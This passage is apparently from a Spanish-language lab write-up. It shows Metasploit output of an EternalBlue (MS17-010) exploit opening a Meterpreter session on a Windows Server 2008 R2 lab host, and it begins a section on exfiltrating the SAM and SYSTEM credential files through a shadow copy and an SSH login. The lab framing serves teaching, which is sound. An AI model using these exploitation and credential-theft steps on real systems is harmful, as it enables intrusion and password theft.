 
    ```bash
    meterpreter > 
    ``` 
![figura](/assets/images/2024-11-03-EP/Captura de pantalla 2024-11-03 185612.png) 
    
> **Comentario:** El mensaje que confirma que la conexión fue exitosa es **WIN**.

> Tip: Al ejecutar el exploit, Metasploit intentará establecer una sesión Meterpreter en la máquina víctima si el ataque es exitoso.

> Tip adicional: Documenta cualquier mensaje en la salida de Metasploit que indique éxito, como Meterpreter session X opened. Esto confirma la conexión.
Mensajes que confirman la conxión y a que son vulnerables:
- Using auxiliary/scanner/smb/smb_ms17_010 as check
- Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (64-bit)
- Scanned 1 of 1 hosts (100% complete)
- The target is vulnerable.
- Connecting to target for exploitation.
- Connection established for exploitation.
- Target OS selected valid for OS indicated by SMB reply
- CORE raw buffer dump (51 bytes)
- Target arch selected valid for arch indicated by DCE/RPC reply
- Trying exploit with 12 Groom Allocations.
- Sending all but last fragment of exploit packet
- Starting non-paged pool grooming
- Sending SMBv2 buffers
- Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
- Sending final SMBv2 buffers.
- Sending last fragment of exploit packet!
- Receiving response from exploit packet
- ETERNALBLUE overwrite completed successfully (0xC000000D)!
- Sending egg to corrupted connection.
- Triggering free of corrupted buffer.
- Sending stage (201798 bytes) to 10.0.2.4
- Meterpreter session 1 opened (10.0.2.9:4444 -> 10.0.2.4:50669) at 2024-11-03 15:50:57 -0800

***

### 2.5. Exfiltración de Archivos SAM y SYSTEM 
- Utilizando la sesión de Meterpreter establecida, explica los pasos para infiltrar un script o herramienta que te permita crear una copia de volumen de sombra (Volume Shadow Copy) de la unidad principal (C:) del servidor.
    - Conexión SSH desde la maquina atacante, conexión remota al servidor:

    ```bash
        ┌──(user㉿kali)-[~/Downloads]
        └─$ ssh vagrant@10.0.2.4                   
        vagrant@10.0.2.4's password: 
        Last login: Sun Nov  3 07:30:17 2024 from 10.0.2.9
        -sh-4.3$ 
    ```  
    ![figura](/assets/images/2024-11-03-EP/Captura de pantalla 2024-11-03 192057.png)    
